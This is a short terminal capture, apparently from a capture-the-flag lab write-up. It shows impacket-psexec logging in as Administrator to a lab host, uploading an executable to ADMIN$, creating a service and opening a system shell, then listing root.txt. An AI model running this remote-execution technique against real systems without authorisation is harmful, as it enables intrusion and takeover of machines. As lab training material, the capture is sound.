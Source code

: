 ```bash
impacket-psexec Administrator@10.10.10.178 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file kEEkLefd.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service GSWB on 10.10.10.178.....
[*] Starting service GSWB.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> cd C:\uSERS/ADMINISTRATOR/DESKTOP

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is E6FB-F2E9

 Directory of C:\Users\Administrator\Desktop

07/21/2021  07:27 PM    <DIR>          .
07/21/2021  07:27 PM    <DIR>          ..
09/03/2025  04:09 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   7,564,230,656 bytes free
```
